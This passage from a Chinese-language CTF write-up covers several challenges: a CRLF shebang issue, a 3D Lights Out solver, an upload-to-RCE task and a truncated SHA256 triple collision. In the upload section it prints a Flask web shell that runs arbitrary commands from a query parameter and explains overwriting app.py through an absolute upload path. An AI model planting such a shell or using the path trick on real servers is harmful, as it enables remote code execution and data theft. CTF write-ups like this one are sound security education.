        response = sendReq(get_request, port=http_port)
        print(response)
        
    except Exception as e:
        print(f"执行过程出错: {e}")

if __name__ == "__main__":
    main()

```

## 沟槽的回车还在追我

官方writeup：

> 比赛的时候收到了一封邮件咨询为什么上传的 Python 脚本会 executable not found。看录屏文件发现是因为文件是 CRLF 的，然后 shebang 实际上就变成了：
>
> ```
> #!/usr/bin/python\r
> ```
>
> 
>
> 而 `python\r` 这个文件是不存在的。但是又不能给提示，所以很遗憾。

最好还是使用和题目环境一致的解题环境，否则真的会有各种玄学问题。Docker题用Windows Xshell连除了ZModem没速度外，还有终端内莫名其妙出现的各自字符。使用Linux连接则正常。

# 关灯

> 3D版本的关灯游戏。

> 本题由各色硅基生命友情协助。

在关灯游戏中，每按下一个开关都会将被影响的灯泡状态取反，再按一次又会恢复（可逆性）；灯的状态和开关操作（是否按下）都只有0/1两种状态，所有运算都在二进制域中进行，所有加法减法等价于异或运算（线性）；再加上独立性、确定性等前提，前三问可使用线性代数给出通解。

## Easy & Medium & Hard

一个可以对难度1-3自动出题、自动解题、自动判题的程序如下。代码中已给出较详细注释。

```python
import numpy as np
from Crypto.Random import get_random_bytes

# 定义一个函数，用于根据开关数组计算灯的状态数组
def convert_switch_array_to_lights_array(switch_array: np.array) -> np.array:
    # 初始化灯的状态数组，与开关数组形状相同
    lights_array = np.zeros_like(switch_array)
    
    # 计算每个灯的状态
    lights_array ^= switch_array  # 当前开关直接影响当前灯
    lights_array[:-1, :, :] ^= switch_array[1:, :, :]  # 上方开关影响下方灯
    lights_array[1:, :, :] ^= switch_array[:-1, :, :]  # 下方开关影响上方灯
    lights_array[:, :-1, :] ^= switch_array[:, 1:, :]  # 左侧开关影响右侧灯
    lights_array[:, 1:, :] ^= switch_array[:, :-1, :]  # 右侧开关影响左侧灯
    lights_array[:, :, :-1] ^= switch_array[:, :, 1:]  # 前方开关影响后方灯
    lights_array[:, :, 1:] ^= switch_array[:, :, :-1]  # 后方开关影响前方灯
    
    return lights_array

# 定义一个函数，用于生成随机的游戏局面
def generate_puzzle(n: int) -> np.array:
    # 生成随机字节序列，长度足以覆盖整个立方体的所有位
    random_bytes = get_random_bytes((n**3) // 8 + 1)
    
    # 将随机字节序列解包为位数组，并截取前 n^3 个位
    switch_array = np.unpackbits(np.frombuffer(random_bytes, dtype=np.uint8))[:(n**3)].reshape(n, n, n)
    
    # 根据开关数组计算灯的状态数组
    lights_array = convert_switch_array_to_lights_array(switch_array)
    
    return lights_array

# 定义一个函数，用于创建线性方程组
def create_linear_system(n, lights_array):
    # 创建增广矩阵，左侧是系数矩阵，右侧是常数向量
    matrix = np.zeros((n**3, n**3 + 1), dtype=int)
    
    # 遍历每个灯的位置
    for i in range(n):
        for j in range(n):
            for k in range(n):
                index = i * n**2 + j * n + k  # 计算当前灯在矩阵中的索引
                
                # 当前灯的位置设置为1
                matrix[index, index] = 1
                
                # 添加相邻位置的影响
                for di, dj, dk in [(-1, 0, 0), (1, 0, 0), (0, -1, 0), (0, 1, 0), (0, 0, -1), (0, 0, 1)]:
                    ni, nj, nk = i + di, j + dj, k + dk
                    if 0 <= ni < n and 0 <= nj < n and 0 <= nk < n:
                        neighbor_index = ni * n**2 + nj * n + nk
                        matrix[index, neighbor_index] = 1  # 相邻位置的开关影响当前灯
                
                # 设置常数项
                matrix[index, -1] = lights_array[i, j, k]
    
    return matrix

# 定义一个函数，用于执行高斯消元法
def gauss_elimination(matrix):
    n = len(matrix)
    
    # 遍历每一行
    for i in range(n):
        # 寻找主元
        max_row = i
        for k in range(i + 1, n):
            if abs(matrix[k, i]) > abs(matrix[max_row, i]):
                max_row = k
        
        # 交换行
        matrix[[i, max_row]] = matrix[[max_row, i]]
        
        # 主元归一化
        pivot = matrix[i, i]
        if pivot != 0:
            matrix[i] = matrix[i] / pivot % 2  # 在模2下归一化
        
        # 消除其他行的主元影响
        for k in range(n):
            if k != i:
                factor = matrix[k, i]
                matrix[k] = (matrix[k] - factor * matrix[i]) % 2  # 在模2下消除影响
    
    return matrix

# 定义一个函数，用于解决谜题
def solve_puzzle(n, lights_array):
    # 创建线性方程组
    linear_system = create_linear_system(n, lights_array)
    
    # 执行高斯消元法
    solution_matrix = gauss_elimination(linear_system)
    
    # 提取解向量
    solution_vector = solution_matrix[:, -1]
    
    return solution_vector

# 测试解题器
difficulty = 1  # 可以选择1, 2, 或 3
if difficulty == 1:
    n = 3
elif difficulty == 2:
    n = 5
elif difficulty == 3:
    n = 11
else:
    raise ValueError("Invalid difficulty level")

# 生成随机的游戏局面
lights_array = generate_puzzle(n)

# 解决谜题
solution = solve_puzzle(n, lights_array)

# 验证答案
switch_array = solution.reshape(n, n, n)
actual_lights_array = convert_switch_array_to_lights_array(switch_array)

# 检查解是否正确
if np.array_equal(lights_array, actual_lights_array):
    print("Puzzle solved!")
else:
    print("Solution is incorrect.")
```

# 禁止内卷

先看源码：

```python
file = request.files['file']
filename = file.filename
filepath = os.path.join(UPLOAD_DIR, filename)
file.save(filepath)
```

对上传文件没有任何过滤，考虑打shell。注意到

> 启动的**完整命令**为 `flask run --reload --host 0`。网站代码运行在 `/tmp/web`。

**完整命令**并没有带文件名，直接就启动了。怎么回事呢？

> Application Discovery Behavior
>
> As a shortcut, if the file is named `app.py` or `wsgi.py`, you don’t have to use `--app`. See [Command Line Interface](https://flask.palletsprojects.com/en/stable/cli/) for more details.

当前目录存在app.py或wsgi.py时，`flask run`可以自动发现，无需指定启动文件名。那就好办了，直接上传一个py覆盖掉原来的。wsgi这个名字太不常见了，我们先试试app。

先写shell：

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/run')
def run_command():
    user_command = request.args.get('command', '')
    result = os.popen(user_command).read()
    return result

if __name__ == '__main__':
    app.run(debug=True)
```

写好后直接启动BurpSuite，随便选一个文件，开始拦包点上传。



注意到`filepath = os.path.join(UPLOAD_DIR, filename)`。这玩意除了拼接文件路径还有个特性：若存在以`/`开头的路径，从最后一个以`/`开头的路径开始拼接，之前参数全部丢弃；我们把上传路径改为绝对路径，`os.path.join()`总是会返回我们的绝对路径。

> 本题的 flag 位于评分数据**原始 JSON 文件**的列表头部，将对应的数字加 65 后使用 ASCII 编码转换后即为 flag 文本。

查看题目逻辑，发现同目录下answers.json为评分数据。直接访问`/run?command=cat answers.json`获取：



转换成ASCII：

```python
NUMBERS = [1,2,3,4]
# 可视ASCII码范围是32到126之间的值
VISIBLE_ASCII_RANGE = range(32, 127)

def convert_to_ascii(numbers):
    for number in numbers:
        ascii_value = number + 65
        if ascii_value in VISIBLE_ASCII_RANGE:
            print(chr(ascii_value), end='')
    print()  # 换行

convert_to_ascii(NUMBERS)
```

即可得到flag。

# 哈希三碰撞

## 三碰撞之一

下载来附件，发现是二进制文件，逆向题



**！！！全网呼叫法国女人！！！**




这......SHA256能碰？哥们没开玩笑吧？再看一眼......



你这hash怎么还int的......这不才4个字节？再看一眼。官方writeup使用OpenAI o1把伪代码转成Python了，这里手算一下，了解一下原理。

~~而且我认为应该使用贵校CLAP论文的产物对汇编进行解释。~~

```c
  for ( j = 0; j <= 2; ++j )
  {
    SHA256(&inputArray[j], 8LL, &v15[32 * j + 30]);
    *(&hash1 + j) = 0;
    for ( k = 0; k <= 3; ++k )
      *(&hash1 + j) = *((unsigned __int8 *)&savedregs + 32 * j + k - 84) | (*(&hash1 + j) << 8);
  }
```

for在此处遍历3次，我们只看第一次就好了（j=0）。

程序读入三个8字节数据后存入inputArray，进行SHA256运算后将产生的32字节数据存入v15偏移30字节处。由于

```c
char v15[134]; // [rsp+72h] [rbp-8Eh] BYREF
```

在本轮循环中，产生SHA256哈希的起始地址位于0x72+30=0x90，终止于0x90+32=0xB0。

在下面的k循环中，程序每次从savedregs（rsp+100h）偏移-84字节开始读取。地址为0xAC，一直读到0xB0到达SHA256最低位，并通过移位确保先读的字节位于高位。也就是说，用户输入三个8字节数据后，程序最终比对的是其SHA256的“后四个字节”。

了解了这些，根据生日悖论，在所有八字节数据中产生四字节哈希值碰撞的概率是比较高的。我们可以写个python脚本进行枚举：

```python
import hashlib
from collections import defaultdict

def sha256_last_4_bytes(hex_str):
    """ 计算给定16进制字符串的SHA256哈希，并返回最后四个字节 """
    hash_object = hashlib.sha256(bytes.fromhex(hex_str))
    return hash_object.digest()[-4:]

def find_triplicate_last_4_bytes():
    # 存储每个最后四位的计数
    last_4_bytes_count = defaultdict(int)
    # 存储每个最后四位对应的原始输入值
    last_4_bytes_inputs = defaultdict(list)

    for i in range(16**16):  # 遍历所有可能的八字节16进制数
        hex_str = f'{i:016x}'  # 将数字转换为16位固定长度的16进制字符串
        last_4_bytes = sha256_last_4_bytes(hex_str)
        
        # 更新计数器
        last_4_bytes_count[last_4_bytes] += 1
        last_4_bytes_inputs[last_4_bytes].append(hex_str)

        # 检查是否有三个相同的后四位
        if last_4_bytes_count[last_4_bytes] == 3:
            print("找到了三个具有相同最后四个字节的SHA256值:")
            for input_hex in last_4_bytes_inputs[last_4_bytes]:
                print(f"输入值: {input_hex}, SHA256最后四个字节: {last_4_bytes.hex()}")
            return True

    return False

if __name__ == "__main__":
    find_triplicate_last_4_bytes()
```

```
[Running] python -u "/tmp/tempCodeRunnerFile.python"
找到了三个具有相同最后四个字节的SHA256值:
输入值: 000000000017df1a, SHA256最后四个字节: 81ce7a42
输入值: 000000000021a19f, SHA256最后四个字节: 81ce7a42
输入值: 000000000054b820, SHA256最后四个字节: 81ce7a42

[Done] exited with code=0 in 13.79 seconds
```

只使用13.79秒就找到了艺术级三碰撞。

